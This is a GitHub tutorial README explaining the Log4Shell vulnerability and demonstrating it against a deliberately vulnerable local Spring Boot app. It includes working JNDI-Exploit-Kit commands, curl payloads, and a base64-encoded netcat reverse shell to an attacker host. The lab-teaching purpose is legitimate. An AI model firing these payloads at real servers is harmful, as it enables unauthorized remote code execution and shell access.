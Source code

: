 # Log4shell

## Introduction

- Accessing the host server through log4j vulnerability and exploiting it with malicious code on the host server.

- Since this exploit is done through the log4j it was named commonly as Log4shell.

- Log4shell is similar to the *SQL injection* in which attacker enters sql string into the request parameters and making it execute  on the host server whereas in *log4shell* hacker enters his directory service url like ldap server making the host application connect to the attacker server using jndi lookup and gets the malicious code execute on the host server which is returned to host application in the form of stream object.

  ![Alt Text](log4shell.gif)

## Log4j Vulnerability

- Log4j is the widely used logging library for all java enterprise applications either referenced directly or indirectly in the applications.

- In 2013, Log4j has introduced a new feature which evaluates Expression language which is in format ${code/variable}.

- For example if we want to print the environment variable then syntax of the logger will be,
   ```log.info("java version is {}", ${java.version});```

- The above expression ${java.version} looks the system level environemnt variables which are set at server level and access the variable and put the value in the logger file.

- This is where the exploit is happening and attackers access the host server access without authorization.
  
## JNDI

- JNDI is *Java Naming & Directory Interface*.

- JNDI provides consistent use of naming and/or directory services as a Java API.

- Most commonly used directory protocols are,
  - LDAP
  - RMI
  - DNS
  - NIS

- Like all Java APIs that interface with host systems, JNDI is independent of the underlying implementation.

  ![Alt Text](What-is-JNDI-in-Java.png)

## LDAP 

- LDAP (Light Weight Directory Access Protocol) is a software protocol for enabling anyone to locate data about organizations, individuals and other resources such as files and devices in a network -- whether on the public Internet or on a corporate Intranet.

  ![Alt Text](how-ldap-works.png)

- This is mostly used while authenticating a users when logging in to a applications since it is not a heavyweight protocol like http and takes less time and also reduces the costly DB hits.

- Also, it is very easy to manage users and their roles since constraints can be added at organization or group level which is easy to maintain and manage users when a new rule is introduced or old rule is depricated/removed.


## RCE

- RCE is Remote Code Execution which clearly explains of executing a malicious code on the remote server (host server) without even having access to the server.

  ![Alt Text](RCE.png)

- Attacker enters malicious code in the form of a request parameter fed to the website and then making the application run the code on the host server and perform whatever attacker wants to do on the host server without having authorized access.

## Demo:

#### Prerequisites:

- [x] *Download LDAP server*:
  ```wget https://github.com/pimps/JNDI-Exploit-Kit/raw/master/target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar```
  ![Alt Text](download_ldap.png)
- [x] *Run LDAP server*:
  - Move to the jar location and run the server using below command.
    `java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C "calc.exe" -L <your private ip>:1389`
  ![Alt Text](run_ldap.png)
  > *_NOTE:_*  Use **hostname -I | awk '{print $1}'** to ge the private IP.
- [x] *Create a spring boot application using log4j2 dependence with version less than 2.15*: 
      -  Open any Java IDE (Eclipse or SpringToolSuite) \
         ![createapp](http://g.recordit.co/UJqn2R3YVo.gif)
     -  Replace pom.xml with below file & copy below LogController src/main/java,
          [pom](pom.xml) 
          [LogController](LogController.java) 
     - Add below lines in default file created under src/main/java --> *Application.java in main method. 
      `System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
       System.setProperty("org.apache.commons.collections.enableUnsafeSerialization", "true");`
      - Install [kali-linux](https://www.kali.org/docs/introduction/download-official-kali-linux-images/) and execute below command to install docker for executing app in docker         container.
    `sudo apt install docker.io` 
    
#### Live Demo:
I will cover 3 scenarios where the malicious code will execute different outputs on the host system/server.
  1. Open ==calculator== on windows system by executing vulnerable java application on local system.
       - Run the spring boot application as below.  
    ![run app](http://g.recordit.co/AW98phqr4i.gif) 
       - Use curl to send request to host server with malicious code.
    	`curl <your IP>:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/Y2FsYy5leGU=}'` 
    ![check calc](http://g.recordit.co/I5a0PeQpkf.gif) 
  2. Creating a ==txt file== inside server after hosting application on docker container.
    	- Host the same application in docker using below commands.<br/>  
    	`docker pull vamsi13krish/vulnerable-app:latest`
    	`docker run -d --name vulnerable-app -p 8080:8080 vamsi13krish/vulnerable-app`   
    	``` curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_unix/dG91Y2ggL3RtcC9wd25lZC50eHQK}'```  
   	- Check the docker container for pwned.txt file in /tmp folder using below command  <br/>
    	```docker exec -it <container ID> ls /tmp```
  	>*_NOTE_*: Use **docker ps** to get container ID <br/>
    ![file](http://g.recordit.co/Bn8ImBR7wn.gif)
  3. Getting complete access to the host server using ==netcat== command that will be passed in malicious code on to host server using log4j vulnerability.
  	- Use below command to convert the required netcat command to base64 encoded string. <br/>  
    	`echo "nc 172.26.9.117 9999 -e /bin/sh" | base64`
  	- Copy the base64 string and paste after exec_global/ in below command  <br/> 
   	 `${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/bmMgIDE3Mi4yNi45LjExNyA5OTk5IC1lIC9iaW4vc2gK}`
  	- Now open other terminal and run below command to listen to the port 9999. <br/>
    	`nc -nvlp 9999`
  	- Run below Curl command and check the listening terminal again  <br/>
  	  `curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/bmMgIDE3Mi4yNi45LjExNyA5OTk5IC1lIC9iaW4vc2gK}'`  
    ![Boom](http://g.recordit.co/xrvaibjQcF.gif)
